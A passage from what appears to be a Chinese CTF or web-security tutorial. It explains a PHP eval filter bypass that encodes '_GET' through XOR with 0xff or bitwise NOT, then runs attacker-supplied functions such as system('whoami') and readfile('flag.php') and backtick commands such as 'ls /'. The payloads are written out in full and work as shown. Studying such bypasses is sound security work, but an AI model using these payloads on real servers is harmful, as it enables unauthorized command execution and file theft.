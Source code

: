 解释一下这个师傅的绕过手法：

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
即: 
${_GET}{%ff}();&%ff=phpinfo
//?shell=${_GET}{%ff}();&%ff=phpinfo
```

> 任何字符与 0xff 异或都会取相反，这样就能减少运算量了。注意：测试中发现，传值时对于要计算的部分不能用括号括起来，因为括号也将被识别为传入的字符串，可以使用`{}`代替，原因是 PHP 的 use of undefined constant 特性。例如`${_GET}{a}`这样的语句 PHP 是不会判为错误的，因为`{}`是用来界定变量的，这句话就是会将`_GET`自动看为字符串，也就是`$_GET['a']`。`${_GET}{%ff}`后面那个`()`为的是能够动态执行传入的 PHP 函数。

如果想要执行代函数的函数比如`system('whoami')`，那我们可以对后面括号里的参数做相同的编码处理：

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff^%88%97%90%9E%92%96);&%ff=system
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff%ff%ff^%99%93%9E%98%D1%8F%97%8F);&%ff=readfile
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%ff%ff%ff%ff%ff%ff%ff%ff^%99%93%9E%98%D1%8F%97%8F);&%ff=highlight_file

// 即: 
// ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}('whoami');&%ff=system
// ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}('flag.php');&%ff=readfile
// ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}('flag.php');&%ff=highlight_file
```

同理，我们也可以直接进行取反：

```
${~%A0%B8%BA%AB}{%ff}();&%ff=phpinfo
${~%A0%B8%BA%AB}{%ff}(~%88%97%90%9E%92%96);&%ff=system
```

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HOCfNIITeqHwLdH4TjAmxPL06sWHiasggibeibRqWib58Fc0UM0UVDyI1dQ/640?wx_fmt=jpeg)

**此外，继承于上述原理，我们还可以直接使用反引号执行命令：**

```
?><?=`{${~%A0%B8%BA%AB}{%ff}}`?>&%ff=ls /
```

分析下这个 Payload：

```
?><?=`{${~%A0%B8%BA%AB}{%ff}}`?>&%ff=ls /
即: 
?><?=`$_GET[%ff]`?>&%ff=ls /
```

最开头的`?>`闭合了 eval() 函数自带的`<?`标签。接下来使用了短标签代替`<?php echo ... ?>`。`{}`里面包含的 PHP 代码可以被执行，`~%A0%B8%BA%AB`为`_GET`，最后将通过参数`%ff`传入的值使用反引号进行命令执行。

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HT6iboeC0UkNhFTnqibEPBTGAicjQzazOUTSIgjvhAuWoPIUpOwzfkSkkA/640?wx_fmt=jpeg)
